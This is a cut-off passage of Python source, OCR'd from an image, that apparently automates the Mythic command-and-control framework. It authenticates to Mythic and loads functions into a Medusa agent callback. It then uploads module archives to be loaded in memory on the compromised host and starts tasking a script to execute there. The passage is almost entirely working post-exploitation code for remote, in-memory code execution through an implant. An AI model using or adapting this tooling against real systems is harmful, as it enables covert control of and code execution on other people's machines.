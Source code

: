     await mythic.login()
    resp = await mythic.set_or_create_apitoken()

    print("\n-------------------------------")
    print("[*] Loading Medusa functions...")
    print("-------------------------------\n")
    # ensure the required Medusa functions are present
    functions = [ "load_module", "load_script" ]
    for function in functions:
        print("[*] Loading {} function".format(function))
        task = mythic_rest.Task(
            callback=callback_id, 
            command=mythic_rest.Command(cmd="load"), 
            params={"command":function}
        )

        # submit the task and wait until it's completed to load the next
        submit = await mythic.create_task(task, return_on="")
        
        if submit.status == "success":
            print("[+] Successfully loaded {} function.\n".format(function))


    print("\n-------------------------------")
    print("[*] Loading required modules...")
    print("-------------------------------\n")
    # read each module zip and submit load_module task
    for module in modules:
        print("[*] Loading {} module in-memory".format(module))
        fc = open(modules[module], "rb").read()

        task = mythic_rest.Task(
            callback=callback_id, 
            command=mythic_rest.Command(cmd="load_module"), 
            params={"module_name":module}, 
            files=[
                mythic_rest.TaskFile(
                    content=fc, 
                    filename=modules[module], 
                    param_name="file")
            ]
        )

        # submit the task and wait until it's completed to load the next
        submit = await mythic.create_task(task, return_on="")
        
        if submit.status == "success":
            print("[+] Successfully loaded {}.\n".format(module))

    # Read the script from local disk
    fc = open(script, "rb").read()
    
    print("-------------------------------")
    print("[*] Executing script...")
    print("-------------------------------\n")
    # create task for executing script